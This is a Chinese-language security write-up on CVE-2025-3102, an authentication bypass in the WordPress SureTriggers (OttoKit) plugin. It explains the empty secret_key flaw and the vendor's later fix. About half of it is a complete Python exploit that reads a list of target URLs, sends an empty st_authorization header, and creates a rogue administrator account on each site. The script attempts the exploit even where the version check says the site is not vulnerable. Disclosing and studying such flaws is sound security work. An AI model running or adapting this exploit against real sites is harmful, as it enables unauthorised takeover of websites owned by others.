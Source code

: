 # WordPress自动化SureTriggers插件认证绕过漏洞

## 漏洞简介

2025 年 4 月，WordPress 自动化插件 OttoKit（原 SureTriggers）被披露存在高严重性安全漏洞（CVE-2025-3102，CVSS v3.1 评分 8.1）。该漏洞为**授权绕过漏洞**，允许未经身份验证的攻击者在特定条件下创建管理员账户，进而完全控制目标 WordPress 站点。漏洞自公开披露后数小时内即遭实战化利用，攻击者通过伪造管理员账户实施网站接管、恶意代码注入等攻击行为。

## 影响范围

SureTriggers WordPress插件包含一个严重的身份验证绕过漏洞（CVE-2025-3102），该漏洞影响1.0.78之前的所有版本。

## 漏洞原理

漏洞存在于 SureTriggers 插件 1.0.78 及之前所有版本的authenticate_user函数中，核心缺陷是对secret_key参数缺乏空值校验。当插件处于**已安装激活但未配置 API 密钥**的未初始化状态时，攻击者可通过构造特制 HTTP 请求，绕过身份验证机制直接调用管理员账户创建接口。具体技术逻辑如下：

- 未配置状态下，插件默认使用空值secret_key作为验证令牌
- 函数未校验secret_key有效性，直接允许后续权限操作
- 利用漏洞可生成具有完全控制权限的管理员账户

![图片来源CN-SEC](./assets/4-1745914627.png)

## POC

POC来源：https://github.com/baribut/CVE-2025-3102

```python
import requests
import json
import re

# 忽略http警告
requests.packages.urllib3.disable_warnings()

# 配置需要创建的用户信息
EMAIL = "A1andNS@wordpress.org"
USERNAME = "A1andNS"
PASSWORD = "A1andNS"

# 获取插件版本号
def fetch_plugin_version(target_url):
    try:
        readme_url = f"{target_url.rstrip('/')}/wp-content/plugins/suretriggers/readme.txt"
        response = requests.get(readme_url, timeout=10, verify=False)
        if response.status_code == 200:
            match = re.search(r"Stable tag:\s*(\d+\.\d+\.\d+)", response.text)
            if match:
                return match.group(1)
        return None
    except:
        return None

# 判断该版本是否存在漏洞
def is_version_vulnerable(version):
    try:
        version_parts = list(map(int, version.split(".")))
        return version_parts <= [1, 0, 78]
    except:
        return False

# 配置HTTP请求头
def prepare_headers():
    return {
        "User-Agent": "Mozilla/5.0",
        "Content-Type": "application/json",
        "st_authorization": ""
    }

# 创建payload
def build_payload():
    return {
        "integration": "WordPress",
        "type_event": "create_user_if_not_exists",
        "selected_options": {
            "user_email": EMAIL,
            "user_name": USERNAME,
            "password": PASSWORD
        },
        "fields": [],
        "context": {}
    }

# 发送http请求
def send_exploit_request(endpoint, headers, payload):
    try:
        return requests.post(endpoint, headers=headers, json=payload, timeout=15, verify=False)
    except:
        return None

# 处理目标
def handle_target(target_url):
    print(f"\n[>] Target: {target_url}")
    version = fetch_plugin_version(target_url)

    if version:
        print(f"[+] Plugin version: {version}")
        if is_version_vulnerable(version):
            print("[+] Vulnerable version detected. Proceeding with exploit...")
        else:
            print("[-] Target version is not vulnerable. Attempting exploit anyway...")
    else:
        print("[-] Could not determine plugin version. Proceeding without version verification.")

    headers = prepare_headers()
    payload = build_payload()
    endpoint = f"{target_url.rstrip('/')}/wp-json/sure-triggers/v1/automation/action"
    response = send_exploit_request(endpoint, headers, payload)

    if not response:
        print("[-] No response received.")
    else:
        try:
            resp_data = response.json()
            if resp_data.get("success"):
                print("[+] Exploit successful!")
                print(f"[+] Credentials: {USERNAME}:{PASSWORD}")
            else:
                print("[-] Exploit failed. Response indicated failure.")
        except:
            print("[-] Failed to parse JSON response.")

# 把需要检测的url放在list.txt文件中，再使用脚本
def main():
    try:
        with open("list.txt", "r") as file:
            targets = [line.strip() for line in file if line.strip()]
    except FileNotFoundError:
        print("[-] list.txt not found.")
        return

    for target in targets:
        handle_target(target)


if __name__ == "__main__":
    main()
```

## 代码修复情况

通过跟踪Suretriggers的github commit情况，可以发现原来的代码从HTTP头部获取了`st_authorization`参数，并检查secret_key是否匹配，如果匹配则通过验证。因此，如果suretriggers启用后没有设置一个API key，即secret_key为一个空值。那么攻击者只需要在HTTP头中提供空的`st_authorization`即可通过验证。

![image-20250607141121656](./assets/image-20250607141121656.png)

那么我们看看开发者是如何修复该问题的，在接收`st_authorization`参数值后，需要检查secret_key是否不是字符串，是否为空，系统中配置的secret_key是否为空。只有在secret_key是一个不为空的字符串时，才能通过初始验证。后续已经是比对secret_key是否匹配，最后还补充了一个hash值得对比。
